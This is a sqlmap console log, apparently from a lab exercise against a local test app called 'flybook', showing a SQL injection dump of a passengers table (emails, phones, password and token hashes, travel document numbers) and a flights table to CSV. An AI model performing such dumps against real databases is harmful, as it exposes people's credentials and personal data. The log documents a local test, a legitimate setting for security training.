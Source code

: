 ```bash
[05:28:22] [INFO] fetching columns for table 'passengers' in database 'flybook'
[05:28:22] [INFO] fetching entries for table 'passengers' in database 'flybook'
[05:28:22] [INFO] recognized possible password hashes in columns 'token, password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: flybook
Table: passengers
[2 entries]
+----+-------+--------------+-----------+----------------------------------+----------------------------------+--------------------+
| id | name  | email        | phone     | token                            | password                         | travel_document_no |
+----+-------+--------------+-----------+----------------------------------+----------------------------------+--------------------+
| 1  | Alice | alice@its.dk | 12782390  | 4292e11c0c184edcdc9f41a4f10468fe | dfd7c8cf918a11426b5e0996636b1229 | PAS-456789         |
| 2  | Bob   | bob@its.dk   | 784512546 | <blank>                          | a12dc5bac0376c86401ffa437cc24ade | ID-4567889         |
+----+-------+--------------+-----------+----------------------------------+----------------------------------+--------------------+

[05:28:31] [INFO] table 'flybook.passengers' dumped to CSV file '/home/kali/.local/share/sqlmap/output/localhost/dump/flybook/passengers.csv'
[05:28:31] [INFO] fetching columns for table 'flights' in database 'flybook'
[05:28:31] [INFO] fetching entries for table 'flights' in database 'flybook'
Database: flybook
Table: flights
[313 entries]
+-----+------+--------+----------+------------+--------------+---------------------+---------------------+
| id  | gate | number | airplane | airport_to | airport_from | date_time_arriv     | date_time_depart    |
+-----+------+--------+----------+------------+--------------+---------------------+---------------------+
[05:28:31] [WARNING] console output will be trimmed to last 256 rows due to large table size
| 58  | O04  | CD2639 | 7        | 548        | 2503         | 2017-11-30 07:36:12 | 2018-12-19 15:36:05 |
| 59  | W17  | JQ0981 | 3        | 1546       | 456          | 2018-02-22 21:23:01 | 2018-12-15 11:27:58 |
| 60  | U50  | LC9033 | 1        | 1561       | 2615         | 2017-09-07 09:24:26 | 2018-10-07 19:25:11 |

(...)

| 311 | A67  | JS1213 | 2        | 110        | 732          | 2018-05-02 23:06:38 | 2018-05-01 08:00:48 |
| 312 | B12  | TA113  | 1        | 110        | 732          | 2018-05-02 23:06:38 | 2018-05-01 08:00:48 |
| 313 | C2   | SAS113 | 4        | 110        | 732          | 2018-05-02 21:09:38 | 2018-05-01 14:00:48 |
+-----+------+--------+----------+------------+--------------+---------------------+---------------------+

[05:28:33] [INFO] table 'flybook.flights' dumped to CSV file '/home/kali/.local/share/sqlmap/output/localhost/dump/flybook/flights.csv'
[05:28:33] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/localhost'

[*] ending @ 05:28:33 /2022-05-15/
```

